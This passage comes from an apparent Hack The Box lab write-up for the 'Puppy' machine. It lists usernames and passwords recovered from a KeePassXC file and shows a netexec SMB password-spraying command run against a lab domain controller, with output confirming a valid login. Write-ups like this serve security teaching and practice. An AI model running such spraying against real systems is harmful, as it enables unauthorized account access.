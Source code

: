 ![](images/2025-05-17_21-51_keepassxc.png)

| Username          | Password       |
| ----------------- | -------------- |
| ADAM SILVER       | HJKL2025!      |
| ANTONY C. EDWARDS | Antman2025!    |
| JAMIE WILLIAMSON  | JamieLove2025! |
| SAMUEL BLAKE      | ILY2025!       |
| STEVE TUCKER      | Steve2025!     |

### Password Spraying

We put them into a `custom password list` together with the `user list` we created using `RID Brute Forcing` and started `password spraying`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ cat passwords.txt 
KingofAkron2025!
liverpool
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
```

With that we verified the `password` of `ant.edwards`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ netexec smb 10.129.184.6 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\ant.edwards:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:KingofAkron2025! STATUS_LOGON_FAILURE 
```